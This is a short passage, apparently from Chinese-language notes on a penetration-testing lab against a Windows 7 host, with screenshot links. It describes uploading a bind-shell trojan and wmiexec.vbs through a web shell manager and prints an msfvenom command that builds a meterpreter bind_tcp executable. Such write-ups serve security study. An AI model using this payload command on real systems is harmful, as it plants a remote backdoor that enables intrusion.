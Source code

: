 ![](../../attaches/Pasted%20image%2020220914210516.png)
情况有所好转但还是不能建立连接。
![](../../attaches/Pasted%20image%2020220914232114.png)
生成正向shell木马，和wmiexec.vbs一起用蚁剑上传到win7的C盘根目录下。
```
 msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=6666 -f exe > she11.exe
```